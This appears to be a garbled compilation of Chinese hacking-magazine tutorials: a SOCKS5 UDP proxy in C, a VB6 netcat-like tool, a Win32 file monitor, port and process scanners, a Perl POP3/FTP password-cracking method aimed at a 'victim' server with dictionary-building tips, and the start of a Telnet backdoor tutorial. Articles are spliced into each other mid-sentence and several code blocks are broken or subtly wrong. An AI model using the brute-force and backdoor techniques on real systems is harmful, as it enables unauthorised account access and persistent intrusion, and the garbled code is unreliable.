if(bind(listenfd, (struct sockaddr *)&servaddr, sizeof(servaddr)) < 0 )
{ closesocket(listenfd); return; } // 绑定出错，排查
bwhile(listenfd, 9999, "127.0.0.1", UDPport); // 调用转发函数
```

以上的就完成了 begin 函数里面握手到建立 UDP 连接的步骤，下面就是等待双方的数据到来，进行转发的 bwhile 函数了，以下代码参考了 chiosoft 的那篇代理的代码，如下：

```c
void bwhile(int msock, int udp_proxy_port, const char *udp_proxy_ip, int cli_udp_port)
{
    struct sockaddr_in remoteaddr, inaddr, clientaddr; // 建立结构
    memset(&remoteaddr, 0, sizeof(remoteaddr)); // 结构清零
    remoteaddr.sin_family = AF_INET; // 设置类型
    int inlen;
    char buf[50000];
    char *thisbuf = &buf[10]; // 直接定位数据位置
    int thissize = 49990; // 数据长度，去除头部10

    // 字节：
    int n;
    fd_set set; // 定义集合
    while(1)
    {
        FD_ZERO(&set); // 将set初始化为空集NULL
        FD_SET((unsigned)msock, &set); // 向集合添加描述字
        if (select(msock+1, &set, NULL, NULL, NULL) < 0) return; // 接受错误，处理
        if (FD_ISSET(msock, &set)) // 判断是否为需要的连接（集合中成员）
        {
            n = recvfrom(msock, thisbuf, thissize, 0,
                (struct sockaddr *)&inaddr,
                &inlen); // 接收UDP报文
            if (n >= 0) // 不是错误报文
            {
                if ((thisbuf[0] == 0x0) &&
                    (thisbuf[1] == 0x0) &&
                    (htons(inaddr.sin_port) == cli_udp_port)) // 资料来自客户端
                {
                    memcpy(&clientaddr, &inaddr, sizeof(clientaddr)); // 复制
                    if (thisbuf[3] != 0x1) // 如果目的为域名，
                    // 如 www.xxx.com 则转换成ip
                    // 代码有点通用性，就简单说明
                    {
                        struct hostent *h;
                        char tmp[256];
                        int seg;
                        strncpy(tmp, &thisbuf[5], thisbuf[4]); // 获取主机名
                        tmp[thisbuf[4]] = 0; // 设置结束符，因为报文没有“\0”
                        h = gethostbyname(tmp); // 由主机名获得IP
                        if (h != NULL) // 活动正确
                        {
                            remoteaddr.sin_addr.s_addr =
                                (*(struct in_addr*)h->h_addr).s_addr;
                            // 此处和以下为填充报文IP和端口
                            // 注意的是，此处都是网络地址
                            seg = thisbuf[4] + 1; // 设置插入位置
                            memcpy(&remoteaddr.sin_port,
                                &thisbuf[4+seg], 2);
                            sendto(msock,
                                &thisbuf[4+seg+2],
                                n-(4+seg+2), 0,
                                (struct sockaddr*)&remoteaddr,
                                sizeof(remoteaddr)); // 发送报文到服务器
                        }
                    }
                    else // 如果直接是IP
                    {
                        // 拷贝源ip
                        memcpy(&remoteaddr.sin_port, &thisbuf[8], 2);
                        // 拷贝源端口
                        memcpy(&remoteaddr.sin_addr.s_addr, &thisbuf[4], 4);
                        // 发送到服务器
                        sendto(msock, &thisbuf[10],
                            n-10, 0,
                            (struct sockaddr*)&remoteaddr,
                            sizeof(remoteaddr));
                    }
                }
                else // 来自服务器
                {
                    // 填充头部，参照以上
                    buf[0] = 0x0; buf[1] = 0x0; buf[2] = 0x0; buf[3] = 0x1;
                    // 以上是保留和是否分段信息
                    memcpy(&buf[4], &udp_proxy_ip, 4);
                    memcpy(&buf[8], &udp_proxy_port, 2);
                    // 发送到客户端
                    sendto(msock, buf,
                        n+10, 0,
                        (struct sockaddr*)&clientaddr,
                        sizeof(clientaddr));
                }
            }
            else
                return; // 出错返回，防止造成死循环。
        }
    }
}
```

OK，这样来说，我们的代理服务器的原型就差不多已经完成了，这里就可以实现对数据的转发了，添加上服务的功能，就是一个挺好的私人代理。

NC 是一个很好用的工具，但它是命令行下的工具，对高手来说，要学会它不难，但对于一些初学者来说，命令行工具有时真的不好懂，参数这么多，一看就“眼晕”。怎么办？做一个图形界面的 NC 不是问题，就都解决了吗？不会做没关系，看看本文作者是如何利用 VB 制作 Windows 界面下的类似 NC 功能的小工具，你就会了解的。

## 用 VB 做个自己的 NC

文/彭林

看着别人制作的各式各样的软件，是不是也曾幻想着某一天自己也能亲手做出属于自己的软件？与其这样日复一日地想，不如马上动手试试。说干就干，和我一起来制作属于自己的工具吧！这里我们以 VB6.0 为例，介绍一下怎么去做一个有连接、侦听、发命令、收取服务器端返回信息功能的类似 NC 的小工具。

首先，启动 VB6.0，载入 WinSock 控件，此控件在控件列表中的名字是 “Microsoft Winsock Control 6.0”，载入后，向窗体中放置一个

### 补充说明

上面的代码基本实现了对于 QQ 的代理，以下是几个需要注意的地方：

- 1. 文中的本机端口和 IP 为了书写方便，均为事先设定值，实际应用中可随时获得。
- 2. 程序可以在 begin 函数的地方采用线程来编写，这样的代理就比较正规。
- 3. 对于线程还需注意几点，特别是参数套接字标识符一定要传对，还有端口也要确认清楚，可以简单的用 bind 的返回值来判断端口是否在使用。

### 附录

程序中有说明的附录的简单资料：

- 1. 0x00 无验证需求
    0x01 通用安全服务应用程序接口（GSSAPI）
    0x02 用户名/密码（USERNAME/PASSWORD）
    0x03 至 X'7F' IANA 分配（IANA ASSIGNED）
    0x80 至 X'FE' 私人方法保留（RESERVED FOR PRIVATE METHODS）
    0xFF 无可接受方法（NO ACCEPTABLE METHODS）
- 2. 0X00 成功协商
    0X01 常见的 Socks 故障
    0X02 不允许连接
    0X03 网络不可到达
    0X04 主机不可到达
    0X05 连接被重置
    0X06 TTL 失效
    0X07 命令不支持
    0X08 地址类型不支持
    0X09 -- 直到 0xff 都保留

看完本文，一直苦于寻找 QQ 代理的朋友是否已经跃跃欲试了呢？有些事情我们总认为很复杂，而在我们自己理清头绪，自己动手实现之后，会突然发现原来就是这么简单。同样一个道理，我们看过很多入侵的文章，似乎也懂得了很多入侵的道理，但是只有真正动手实践之后，才会真正明白其中的精华所在。所谓实践出真知也就是这个道理了。

WinSock 控件、Timer 控件，都用默认的名称，Timer 控件的 Interval 属性设为 200。然后再加入 5 个 Text 控件、6 个 Label 控件和 5 个 Command 控件，排列成如图 1 所示的样子，各主要控件的名称如图 1 相应位置所示，其他没标明名称的只是修饰控件，代码中不需要用到它们的名称，所以用默认名称即可。然后再把 Text4 和 Text5 这两个控件的 MultiLine 属性设为 True，ScrollBars 属性设为 3，单独将 Text4 控件的 Locked 属性设 True，Command3 控件的 Enabled 属性设为 False。各 Label 控件和 Command 控件的 Caption 属性设成如图 1 所示的那样，属性内容当然是除去控件名称后的文字了。


控件添加完成后，双击“连接”按钮，添加“连接”按钮的 Click 事件相关代码如下：

```
On Error GoTo On Error
Winsock1.Connect Trim(Text1.Text), Trim(Text2.Text)
Command1.Enabled = False
Command2.Enabled = False
Text1.Enabled = False
Text2.Enabled = False
Text3.Enabled = False
Exit Sub
On Error:
MsgBox Error, , "错误"
```

双击“侦听”按钮，添加“侦听”按钮的 Click 事件相关代码如下：

```
On Error GoTo On Error
If Command2.Caption = "侦听" Then
    Command2.Caption = "取消侦听"
    Winsock1.LocalPort = Text3.Text
    Winsock1.Listen
    Command1.Enabled = False
    Text1.Enabled = False
    Text2.Enabled = False
    Text3.Enabled = False
Else
    Command2.Caption = "侦听"
    Winsock1.Close
    Command1.Enabled = True
    Text1.Enabled = True
    Text2.Enabled = True
    Text3.Enabled = True
End If
Exit Sub
On Error:
MsgBox Error, , "错误"
Command2.Caption = "侦听"
Winsock1.Close
Command1.Enabled = True
Text1.Enabled = True
Text2.Enabled = True
Text3.Enabled = True
```

双击“断开连接”按钮，添加“断开连接”按钮的 Click 事件相关代码如下：

```
On Error Resume Next
If MsgBox("真的要断开连接吗？", 4, "确认") = vbYes Then
    Winsock1.Close
    Command1.Enabled = True
    Command2.Enabled = True
    Command3.Enabled = False
End If
```

双击“退出”按钮，添加“退出”按钮的 Click 事件相关代码如下：

```
Unload Me
```

双击“发送上面的信息”按钮，添加“发送上面的信息”按钮的 Click 事件相关代码如下：

```
If Text5.Text <> "" Then Winsock1.SendData Text5.Text + vbCrLf
Text5.Text = ""
```

双击 Timer 控件，为它添加如下代码，目的是显示控件的状态：

```
On Error Resume Next
Select Case Winsock1.State
Case 0: Label6.Caption = "端口状态：关闭(0)"
Case 1: Label6.Caption = "端口状态：打开(1)"
Case 2: Label6.Caption = "端口状态：侦听(2)"
Case 3: Label6.Caption = "端口状态：连接挂起(3)"
Case 4: Label6.Caption = "端口状态：识别主机(4)"
Case 5: Label6.Caption = "端口状态：已识别主机(5)"
Case 6: Label6.Caption = "端口状态：正在连接(6)"
Case 7: Label6.Caption = "端口状态：已连接(7)"
Case 8: Label6.Caption = "端口状态：正在关闭连接(8)"
Case 9: Label6.Caption = "端口状态：发生错误(9)"
End Select
```
Then
    Cancel = 1
End If

随后是 WinSock 控件的事件与代码了，WinSock 的 Connect 事件代码如下：

```
MsgBox "成功连接到 " + Text1.Text + " 的 " + Text2.Text + " 端口"
WinSock 的 ConnectionRequest 事件代码如下：
On Error Resume Next
Winsock1.Close
Winsock1.Accept requestID
MsgBox Winsock1.RemoteHostIP + " 连接本机", "有人连接"
Command1.Enabled = False
Command2.Enabled = False
Command3.Enabled = True
WinSock 的 DataArrival 事件代码如下：
On Error Resume Next
Dim StrData As String
Winsock1.GetData StrData
Text4.Text = StrData
```

WinSock 的 Close 和 Error 事件代码是相同的，如下：

```
On Error Resume Next
Winsock1.Close
MsgBox "对方关闭连接了！", "提示"
```

最后，给窗体的 Unload 加上以下代码：

```
On Error Resume Next
If MsgBox("真的要退出吗?", 4, "确认") = vbNo Then
```

终于完成一个简单的程序例子了。现在我们来测试一下，先在 VB 文件菜单中编译成 EXE 文件，然后重复运行这个 EXE 文件两次，得到两个程序的运行窗口，在第一个窗口中输入“本地端口”为 1000，然后按“侦听”按钮。在第二个窗口中输入“目标 IP”为“127.0.0.1”，“对方端口”为“1000”，然后按“连接”按钮，那两个窗口就都会有反应了，一个提示连接成功，一个提示有人连接，这样，两个窗口间发送的信息对方都能收到，可以当聊天软件用了。这个例子只是证明这个软件能正常收发信息，然后我们要用另一个例子来查看 IE 浏览器在浏览某个网站的主页时，到底会用什么样的请求。首先，在启动程序后输入“本地端口”为“80”，然后按“侦听”按钮，再启动 IE 浏览器，输入“http://127.0.0.1/”后回车，看看那个小程序，是不是提示有连接，然后看看收到的信息那里，是不是收到由 IE 发来的请求了？所以，这样的小程序是很有用的，收到 IE 发来的请求后，我们在下面的发送信息那里随便输入一些字，然后按“发送”，再按“关闭连接”按钮。看看 IE 那边有什么？是不是显示着我们刚刚打的那些字呀？如果你在发送信息那里打入 HTML 代码并发送过去的话，IE 那边就会出现相应的网页了，不信的话自己去复制一份网页的 HTML 代码试试。

相应的，你可以用这个小程序连接到网上的 SMTP、POP 服务器上，发送相应的命令，都可以的。由于这个小程序只是举例说明，所以设计比较简单，没对输入错误和某些按钮在什么情况下应该可用和不可用这些情况做严格的检查与限制，所以有时会有点小问题，如果做得太好的话，代码量就会比较大，不方便刊登与说明，有兴趣的朋友可以自己扩展功能。我另外做了一个功能比较多的版本放在本期光盘中；同时，我还做了一个豪华版的，XP 界面，功能也多了一点点。在天空软件下载的下载地址为：http://www.skycn.com/soft/13676.html，大家可以下载测试一下，其基本思路与我们这里所说的是一致的。

> 我们曾经用到过一些软件，当我们增加一个文件或者修改文件名、属性等时，该软件会立刻弹出窗口报警或者将其记录到日志，那么这种软件是如何检测到这些变化的呢？这项技术复杂吗？看完本文，您自然就明白了。

难度等级：中

前置知识：会查阅 MSDN，C 语言基础知识

## 打造自己的文件动态监控器


文／单长虹

在计算机安全领域里，很多对付病毒的方法都使用了文件的动态监控技术。比如我们使用的瑞星杀毒软件，当在磁盘上新出现一个文件的时候，就会自动触发搜索引擎，开始对文件的扫描，确认没有问题之后就可以放心使用了。今天我们在这里将要讨论的就是这样一种动态监控技术的实现。笔者用 C 语言的控制台程序给出了一个示例，大家可以在随书光盘中找到，名字叫 FileChange。

Windows 2000 允许用户申请在文件或目录删除、更新或创建时得到通知。当用户申请被通知时，Windows 2000 返回一个句柄。用户可以通过这个句柄判断通知是何时发出的。用于实现文件通知的 API 函数有 3 个，分别是：FindFirstChangeNotification、FindNextChangeNotification、FindCloseChangeNotification，下面依次进行介绍。

先来看一下 FindFirstChangeNotification 函数，它的作用是用于打开控制通知过程的句柄。函数原型如下：

```
c
HANDLE hNotify=FindFirstChangeNotification(
szRootDir, fIncludeSubdirs, dwFilter)

```

下面我们来介绍一下该函数中的 3 个参数。

szRootDir 是引起通知创建的目录的路径名，也就是您要监控的目录。fIncludeSubdirs 参数是一个 BOOL 值，如果您想在监控 szRootDir 的同时，还要监控它下方的子目录的变化，就要将这个值指定为 TRUE，否则可以使用 FALSE，这样只有指定的目录中发生了变化才会引起通知。dwFilter 是一个 DWORD 变量，包含一个或者多个过滤值，用于指定当文件发生了哪些变化时才会触发通知事件。第三个参数主要有 6 个可以使用的标志，分别是：

- `FILE_NOTIFY_CHANGE_FILE_NAME`（目录中的文件名被改变）
- `FILE_NOTIFY_CHANGE_DIR_NAME`（目录名被改变）
- `FILE_NOTIFY_CHANGE_ATTRIBUTES`（文件或目录的属性被改变）
- `FILE_NOTIFY_CHANGE_SIZE`（文件的大小被改变）
- `FILE_NOTIFY_CHANGE_LAST_WRITE`（文件的最后修改的日期被改变）
- `FILE_NOTIFY_CHANGE_SECURITY`（文件的安全描述符被改变）

这个函数的返回值为一个句柄，如果函数出错，它将返回 INVALID_HANDLE_VALUE；否则，它返回的句柄将发出一个信号，告诉通知何时发出。程序执行到这个函数时，将进入一个代价很低的等待状态，直到返回的句柄把它的状态改为发信号就足够了。

结束了吗？没有。现在我们设置了监控，


该函数也会自动返回相应句柄。但是我们的程序如何知道返回了什么样的事件？对于不同的事件究竟应该做如何处理呢？这就是后面的工作了。

那么对于这个函数发出的通知，程序是怎么得到的呢？我们可以使用函数 WaitForSingleObject 或者 WaitForMultipleObjects 函数来获取通知，这里我们主要来介绍一下 WaitForSingleObject 函数的使用。函数原型如下：

```
c
DWORD WaitForSingleObject(
    HANDLE hHandle,            // handle to object to wait for
    DWORD dwMilliseconds       // time-out interval in milliseconds
);

```

> **注意**

WaitForMultipleObjects 函数和 WaitForSingleObject 函数功能差不多，但是其可以对一组句柄进行监控。这样，当我们要对多个事件进行监控时，其就会根据事件的不同返回相应的值以示区别。

先来看第一个参数 hHandle，是一个指向对象的句柄，当这个对象的句柄一旦被赋了值以后，就可以让函数 WaitForSingleObject 返回了。再来看第二个参数 dwMilliseconds，它指定了这个函数等待的时间最长是多少，如果超过了这个时间就会返回。当然了，你可以使用 INFINITE，这样函数就会永远等待下去，不过这样的话就会很容易让线程陷入死锁，所以要谨慎使用。

如果这个函数执行成功了，从返回值就可以得知函数因何返回。返回只有这样 3 个：WAIT_ABANDONED、WAIT_OBJECT_0、WAIT_TIMEOUT，下面分别解释一下。首先来看 WAIT_ABANDONED，它用来指明互斥对象在所有者线程自己未结束之前不能被所有者进程释放，显然，只有所有者线程结束之后，互斥对象才被释放，它的控制权交给了调用所有者线程的线程。WAIT_OBJECT_0 描述指定对象的状态是发信号的。WAIT_TIMEOUT 说明设定的时间超时了，

并且已经把对象的状态设置为不发信号。如果函数出错返回，返回值就是 WAIT_FAILED。可以通过 GetLastError() 函数得到详细的出错信息。

WaitForMultipleObjects 的工作方法类似，只不过它允许等待一个句柄数组，具体的用法有兴趣的读者可以察看一下 MSDN。

在得到文件系统中发生了变化的通知，并从等待函数返回以后，我们还必须要调用 FindNextChangeNotification，这样才能是用户自动得到以后的文件变化的通知。函数原型如下：

```
c
BOOL fNotify = FindNextChangeNotification(hNotify);

```

这个函数将重置文件改变通知句柄，这样在下一次发生变化时，就可以得到通知。

当然了，在使用完了文件通知句柄以后，必须通过调用 FindCloseChangeNotification 函数来释放它。函数原型如下：

```
c
BOOL fClosed = FindCloseChangeNotification(hNotify);

```

关于这个函数的代码在光盘中，下面我把主函数部分列出来并做相应的注释。

```
c
int _tmain(int argc, TCHAR* argv[])
{
    try
    {
        int ndx;
        ZeroMemory(g_hndlTable, sizeof(g_hndlTable));
        for (ndx = 0; ndx < NOTIFICATION_COUNT; ndx++)
        {
            SetFirstNotification(ndx); // 设置第一次文件通知
        }

        // 注意这里 SetFirstNotification 是笔者自己定义的函数，光盘中可以找到。

        // 进入无限循环，对文件变化监控
        while (1)
        {
            DWORD dwWait;
            // 调用 WaitForMultipleObjects 描述...
        }
    }
}
```

```
cpp
通知
    dwWait = WaitForMultipleObjects(
        (NOTIFICATION_COUNT,
        g.hndTable,
        FALSE,
        INFINITE);

    // 此处 g.hndTable 数组元素为以上 SetFirstNotification 后
    // 得到的各监控事件的句柄。
    if (dwWait != WAIT_FAILED)
    {
        int ndx = dwWait - WAIT_OBJECT_0;
        OnFileNotification(ndx); // 进行处理
        SetNextNotification(ndx); // 设置下一次文件变更通知
    }

```

```
cpp
finally
{
    FreeNotifications(); // 释放通知句柄
}
return 0;

```

分析到此结束，如果大家有什么疑问，可以查阅一下资料，或者到论坛讨论。

### 编后：

本文仅是对文件动态监控技术做了比较简单的介绍。大家在自己实现时，当然可以将界面做得更加人性化，在功能上也可以根据需要再扩充。当您拥有一款真正属于自己的文件监控器时，相信感觉定当与众不同。

## 送自己一对电子眼

### ——计算机扫描技术编程解析

编程对于我们菜鸟来说或许有些头疼，而谈到扫描器的编程，可能令更多人望而却步。而事实上，这些扫描的实现并非我们想像的那么困难，甚至说的确有些简单。本文就从端口、文件目录和进程 3 个方面来分别对其编程进行比较详细的分析。看过之后，相信你一定会发出这样的感慨：“原来这么简单！”

难度等级：中

前置知识：C 语言基础知识，会查阅 API 函数

文／单长虹

### 主机的端口状态扫描

用一个 C++ 语言写成的函数，实现了这样一个端口扫描的功能，需要传入的参数有待测试的主机 IP 和端口号。使用这个函数，读者可以对任何主机进行端口扫描，然后发现端口的状态。对于这样一个实现的源代码，可以在附书光盘中找到，名字叫端口扫描器，是用 VC++6.0 编写的窗口程序，很容易操作的。

```
cpp
BOOL CPortScanDlg::TestConnection(CString IP,
UINT nPort)

// 创建套接字
CSocket* pSocket;
pSocket = new CSocket; // 这里使用了 C++ 的内建类库 CSocket，当然读者也可以直接使用 Socket 编程，不过这样程序员所要做的工作相对复杂一些，您不妨尝试一下。
ASSERT(pSocket);
if (!pSocket->Create())

```

```cpp
delete pSocket;
pSocket = NULL;
// 如果套接字创建不成功，则返回 false
return FALSE;

// 连接主机
while (!pSocket->Connect(IP, nPort))
{
    delete pSocket;
    pSocket = NULL;
    // 如果指定的端口没有打开，返回 false
    return FALSE;
}

// 清除套子
pSocket->Close();
delete pSocket;
// 如果端口是开放的，则返回值为 true
return TRUE;
```

> 这里端口扫描的依据，是对方被扫描端口建立连接请求。如果连接成功则说明对方端口开放，否则说明对方端口没有打开。

### 文件目录扫描

这里我主要介绍几个在进行文件搜索时常常使用的 API 函数，并附加了一个 C 语言编写的控制台程序。

FindFirstFile 函数用来在一个目录中搜索一个文件，在这个函数中提供了专门的参数，如文件名和文件属性，提供查找匹配条件。函数原型如下：

```cpp
HANDLE FindFirstFile(
    LPCTSTR lpFileName,            // 指向要查找的文件名称的指针
    LPWIN32_FIND_DATA lpFindFileData // 指向匹配的文件的信息的指针
);
```

如果查找成功，则会返回一个合法的句柄，用户可以用该句柄来继续查找，函数的第二个参数是一个 LPWIN32_FIND_DATA 结构，第一个匹配查找字符串的文件的有关信息将被存入到该结构中。

另外，这个函数还有一个升级版本，原型如下：

```cpp
HANDLE FindFirstFileEx(
    LPCTSTR lpFileName,                 // 指向要查找的文件名称的指针
    FINDEX_INFO_LEVELS fInfoLevelId,    // 返回数据的信息级别
    LPVOID lpFindFileData,              // 指向返回信息的指针
    FINDEX_SEARCH_OPS fSearchOp,        // 执行过滤的类型
    LPVOID lpSearchFilter,              // 指向查找规则的指针
    DWORD dwAdditionalFlags             // 额外的查找控制标志
);
```

如果想把从 FindFirstFile 开始的查询继续下去，可以使用 FindNextFile 函数，这个函数的原型如下：

```cpp
BOOL FindNextFile(
    HANDLE hFindFile,
    // 要查询的句柄，上一个函数的返回句柄
    LPWIN32_FIND_DATA lpFindFileData // 指向匹配的文件的信息
);
```

在成功查找的情况下，函数返回非零值，否则返回 FALSE。

最后，如果查找完成，我们还必须关闭由 FindFirstFile 打开的句柄，这就要使用 FindClose 函数，只需要将 FindFirstFile 返回的句柄当作参数传入即可。FindClose 函数原型如下：

```cpp
BOOL FindClose(
    HANDLE hFindFile    // file search handle
);
```

下面是我用 C 语言写的一个文件搜索程序的主函数，这个程序很简单，是一个控制台程序，用来列出在 C:\ 目录中的所有扩展名为 .exe 的文件。

```cpp
#include <windows.h>
#include <tchar.h>
#ifdef UNICODE
    #include <stdio.h>
#endif
void DisplayError(LPCTSTR pszTitle);
int _tmain(int argc, TCHAR *argv[])
```

```cpp
WIN32_FIND_DATA wfd;
HANDLE hSearch = FindFirstFile(_T("C:\\*.exe"), &wfd);
if (hSearch != INVALID_HANDLE_VALUE)
{
    _tprintf(_T("%s\n"), wfd.cFileName);
    while(FindNextFile(hSearch, &wfd))
        _tprintf(_T("%s\n"), wfd.cFileName);
    FindClose(hSearch);
}
else
{
    DisplayError(argv[0]);
}
return 0;
}

void DisplayError(LPCTSTR pszTitle)
{
    LPVOID pv;
    FormatMessage(FORMAT_MESSAGE_ALLOCATE_BUFFER |
                  FORMAT_MESSAGE_FROM_SYSTEM,
                  NULL,
                  GetLastError(),
                  MAKELANGID(LANG_NEUTRAL, SUBLANG_DEFAULT),
                  (LPTSTR)&pv,
                  0,
                  NULL);
    MessageBox(NULL, pv, pszTitle, MB_ICONHAND);
    LocalFree(pv);
}
```

```cpp
HANDLE hProcessSnap = NULL;
PROCESSENTRY32 pe32 = {0}; // pe32用来存放进程的详细信息
// 获得快照句柄
hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
// 判断函数 CreateToolhelp32Snapshot 是否成功执行了
if(hProcessSnap == (HANDLE)-1)
{
    printf("\nCreateToolhelp32Snapshot() failed:%d", GetLastError());
    return;
}

// pe32中的dwSize字段必须赋初值，否则在执行Process32First函数时会出错
pe32.dwSize = sizeof(PROCESSENTRY32);
// 列举所有进程名称
if (Process32First(hProcessSnap, &pe32))
{
    do
    {
        // 将进程名加到列表框中
        m_ctrlLstProcesses.AddString(pe32.szExeFile);
    }
    while (Process32Next(hProcessSnap, &pe32)); // 直到列举完毕
}
else
{
    printf("\nProcess32First() failed:%d", GetLastError());
}

// 关闭句柄
CloseHandle(hProcessSnap);
```


> 文件扫描也是计算机病毒和反病毒经常用到的一项技术。

### 进程扫描

进程扫描也是反病毒技术中一项非常重要的手段，下面我将结合一个程序来介绍这一技术的实现方法，源程序已经在随书光盘里了，名字叫进程扫描器，你可以找出来执行一下，然后进行细细分析，并不难。程序是使用 VC++6.0 实现的，可以编译后直接执行。

到这里，笔者基本上把要说的都说完了，但是大家的活可刚刚才开始，如果你想要深入理解的话，还要上机调试一下程序，看一下实际效果，所谓实践出真知，也就是这个道理了。

**编后：** 无论在黑客软件还是其他普通应用软件中，扫描技术都占有极重要的位置。有很多技术在我们没有接触时，总觉得其高深莫测，而当我们真正了解、动手实践之后，其神秘感便会立即消失。各位黑防的读者朋友，我想大家只要多动手实践，各方面定可更上一层楼。

```cpp
void CListProcessesDlg::ListProcesses()
{
    // 初始化
}
```

## Perl 编写密码破解工具 DIY

Perl 是一门非常优秀的网络编程语言，人们常编写入侵工具，最大的特点就是简单、实用和方便。另外，只要将代码稍微变动一下，就可以制作成具有此功能的网页，那么你也可以创建一个具有扫描漏洞和密码破解功能的网站了。


以前曾经介绍了用 VB 制作一些基础的工具，收到许多网友的来信，表示了他们对 VB 制作入侵工具的关注。俗话说师傅领进门，修行在个人。笔者的知识也有局限，希望诸位朋友能自己领悟 VB 网络编程的奥秘，开发一些未被开发的工具类别，一定能取得很好的成效。这次，我收集了自己用 Perl 编写的几个工具，并简单概括一下 Perl 编程在网络的运用上的技巧，以及编写密码破解程序的方法。希望你能多多涉猎各个语言关于网络编程的相通之处。

参数的默认变量是 `ARGV`，可以通过这个数组变量获得用户输入命令时所获得的参数。比如 `@ARGV` 是获得总共有多少个参数，如果设置了 `$ARGC=@ARGV`，那么 `$ARGV[0]` 就是第一个参数，`$ARGV[1]` 就是第二个参数，以此类推。

### 一、架设 Perl 的运行环境

在 Windows 系列操作系统下，你只需安装 ActivePerl 就可以了（下载地址 `http://www.activestate.com/`）。安装是全自动的，本文的程序只需按照默认的配置即可。UNIX/Linux 系统下如果默认没有安装 Perl 的话，可以下载 Perl 的 PM 包，安装步骤可以参阅软件自带的帮助文件，本文从略。

### 二、热身知识

Perl 的基本知识可以参阅许多 Perl 的入门编程知识，在阅读本文之前，你应该学会变量、数组以及简单的文本操作的程序编写。我先来讲一下 Perl 在网络功能方面运用的知识：

运行时参数的配置：

#### Perl 的 Socket 编程

用到了 Socket，首先要在文件的开头 `use strict;`、`use Socket;` 来输入 Socket 库中的函数。这样我们就可以在自己的 Perl 程序中运用 Socket 的函数了。我们需要的函数如下：

- `gethostbyaddr(ADDRESS, TYPE)`：将压缩形式的网络地址转换为更易于人阅读理解的名字与地址。当只知道主机的 IP 地址时，可以使用本函数查询主机名及其他网络信息，会返回一个列表，包含如下信息：`($name, $alias, $addrtype, $length, $address)`。其中，`$name` 是与 IP 地址对应的主机名，`$alias` 是对应 `$name` 的其他别名，`$addrtype` 是网络地址的类型，`$length` 是地址的长度，而 `$address` 则是压缩形式 IP 地址的列表。
- `connect(SOCKET, NAME)`：试图与已经调用了 `accept()` 函数并等待建立连接的另外一个进程进行对话。如果成功，则返回真；否则返回假。`NAME` 应该是对应 `SOCKET` 句柄正确类型的压缩地址。
- `gethostbyname(NAME)`：与上面的 `gethostbyaddr()` 函数类似，不过在这里主机名是作为参数，返回的信息格式完全相同。
- `listen()`：`listen()` 系统调用被服务器所使用。下面有它的定义：
  ```c
  #include<sys/types.h>
  #include<sys/socket.h>
  
  int listen(int sockfd, int backlog);
  ```
  Sockfd 是套接字描述符，backlog 是在一时间内尚未被决定是否拒绝的连接的号码，一般使用标准值 5，如发生错误则返回值小于 1。如果这个调用成功，你就已经可以接受连接了。
- `accept()`：`accept()` 调用被服务器用于接受任何从客户机 `connect()` 调用所引入的信息。必须明白的是，如果没有接受到连接这个函数将不返回任何值，它是这样定义的：
  ```c
  #include<sys/types.h>
  #include<sys/socket.h>
  
  int accept(int sockfd, struct sockaddr *peeraddr, int addrlen)
  ```
  除 peeraddr 指向发出连接请求的客户机的信息外，其他参数和 `bind()` 系统调用的相同。在信息引入的基础上，peeraddr 所指向的结构的域被填上相应的值。

除了以上几个 Socket 函数之外，还有几个函数读者可以通过实例自己来体会一下。我现在来介绍一下本文所用到的其他一些十分适用的函数：

- `chop()`：调用语法 `$chars = chop(var);`。`var` 可为变量或数组，当 `var` 为变量时，最后一个字符被删除并赋给 `$chars`，当 `var` 为数组/列表时，所有元素的最后一个字符被删除，最后一个元素的最后一个字母赋给 `$chars`。当我们需要用字典进行密码的读取时，可以用这个函数将这一行的回车符删去。
- 打开、关闭文件：语法为 `open(filevar, filename)`，其中 `filevar` 为文件句柄，或者说是程序中用来代表某文件的代号，`filename` 为文件名，其路径可为相对路径，亦可为绝对路径。例如：
  ```c
  open(FILE1, "c:/test.txt");
  ```
  就是打开 c: 下的 test.txt 并储存在 FILE1 中。

### 三、程序的原理

本文运用的是通过打开服务器字典、用户名字典、密码字典，然后一次读取每一行的内容，将所有的组合依次连接，如果连接成功，就加入成功的数组，并记录到新的文件中。比如，读取用户名为 zhangsan，密码为 zhangsan111，服务器为 pop.victim.com，则尝试用 zhangsan 这个账户登陆服务器，如果能返回“+OK”字符，则表示该账户正确，通过反复读取文件中的内容，并进入循环过程，就可以达到密码破解的目的。

### 四、程序注释


### 五、程序的演示

我使用附录中的 pop3crack.pl，并将已知的一个正确组合，即正确的用户名、密码、服务器混合到列表中。并进行测试如下：

开始扫描(图1)：


扫到一个正确的账号(图2)；
扫描结束，记录文档（图3）。

### 六、附录文件说明

如果说木马是现在“最好用”的黑客类工具，那么 Telnet 后门就相当于一个没有 Client 端的木马，利用 Windows 自带的工具或者 NC 均可以直接连接。本文就 Telnet 后门类软件的制作过程和必要的技巧做一个较简单的透视，希望大家看完后，能有所收获。


## 一个简单的


## Telnet 后门软件

文/2vrop

Telnet 后门非常好用的地方就在于它可以直接捆绑 Dos，让使用者可以很方便地使用 DOS 的所有功能，小巧的体积加上 Telnet 常用的服务启动方式，以及作者加入的相当强度的功能，不得不说是一种很好用的软件。我们就先来介绍一下 Telnet 的工作过程以及它的两个重要组成功能模块——捆绑 Dos 控制台和时下最流行的启动方式——NT 服务：

```c
WORD info; WSADATA data; // 定义要用的变量
int sock, msock, error;
struct sockaddr_in server;

info = MAKEWORD(2, 0); // 确定 Socket 的版本
error = WSAStartup(info, &data); // 此函数用来进行初始化，设置版本，
                                 // 分配资源等的工作
if (error != 0)
    return;
```

## 一、Telnet 后门的实现－连接

Telnet 也是基于 TCP/IP 连接程序，程序都是用 Windows Sockets 规范来写的，下面给出了一段通用的代码，我们先来介绍一下连接的组成：


图 2
图 3

的。ftpcrack.pl 则是用来破解 ftp 的服务器的。hackersword.pl 是爱 lovehacker 的首发（那是 N 年前的事情了），编写的一个针对用户名生成字典的工具。如果你有一个用户名的字典，则不妨就用这个工具来生成密码字典，将用户名进行简单的改变就可以获得很好的破解效果。其原理是：将用户名作为数组，在每一个用户名后面依次添加如：1、12、123 等等的数字，或者将用户名与用户名相加。这样配合前两个工具，就可以实现“简单密码扫描”的功能了！

```c
sock = socket(AF_INET, SOCK_STREAM, 0); // 建立连接
// 参数一是确定类型：AF_INET，Internet类型
// SOCK_STREAM是流模式套接字
// 0表示自动选择合适的协议
if(sock == SOCKET_ERROR)
    return;
server.sin_family = AF_INET;
server.sin_port = htons(1000); // 端口
server.sin_addr.S_un.S_addr = INADDR_ANY; // 接收任何地址的信息
